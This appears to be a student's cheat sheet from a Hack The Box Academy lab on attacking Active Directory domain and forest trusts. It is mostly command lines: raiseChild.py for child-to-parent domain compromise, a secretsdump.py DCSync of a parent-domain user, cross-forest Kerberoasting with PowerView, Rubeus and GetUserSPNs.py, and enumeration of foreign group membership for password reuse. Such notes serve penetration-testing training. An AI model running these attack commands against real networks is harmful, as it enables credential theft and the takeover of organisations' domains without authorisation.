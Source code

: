 
## Automate PWND with raiseChild.py

```bash
raiseChild.py -target-exec 172.16.5.5 LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm
```


## Perfrom a DCSync attack to the parent domain

```bash
secretsdump.py logistics.inlanefreight.local/CappuccinoAssassino@academy-ea-dc01.inlanefreight.local -k -no-pass -just-dc-user INLANEFREIGHT/bross
```

# Kerberoasting Attack Domain Trust Cross-Forest - Windows

Enumerating Accounts for Associated **SPNs** Using **Get-DomainUser**

```bash
Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL | select SamAccountName
```

Enumerating the founded Account

```bash
Get-DomainUser -Domain FREIGHTLOGISTICS.LOCAL -Identity mssqlsvc |select samaccountname,memberof
```

Use Rubeus with the **/domain:** flag to specify the target domain
```bash
.\Rubeus.exe kerberoast /domain:FREIGHTLOGISTICS.LOCAL /user:mssqlsvc /nowrap
```

## Foreign group membership

From time to time, we'll run into a situation where there is a bidirectional forest trust managed by admins from the same company. If we can take over Domain A and obtain cleartext passwords or NT hashes for either the built-in Administrator account (or an account that is part of the Enterprise Admins or Domain Admins group in Domain A), and Domain B has a highly privileged account with the same name, then it is worth checking for password reuse across the two forests.

Using **Get-DomainForeignGroupMember**  to enumerate groups with users that do not belong to the domain, also known as foreign group membership.

```bash
Get-DomainForeignGroupMember -Domain FREIGHTLOGISTICS.LOCAL
```

# Kerberoasting Attack Domain Trust Cross-Forest - Linux

Enumerating Accounts for Associated **SPNs** Using **GetUserSPNs.py**

```bash
GetUserSPNs.py -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/htb-student
```
